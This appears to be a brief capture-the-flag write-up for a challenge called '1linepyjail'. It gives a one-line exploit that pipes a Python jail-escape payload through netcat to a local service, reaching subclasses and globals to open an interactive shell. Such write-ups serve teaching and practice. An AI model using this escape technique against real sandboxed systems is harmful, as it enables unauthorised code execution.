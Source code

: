 ### 1linepyjail

Our exploit:

```
(echo "[g:=[].__class__.__base__.__subclasses__,g()[158]()(),g()[276].write.__globals__['interact']()]";cat) |nc localhost 5000
```
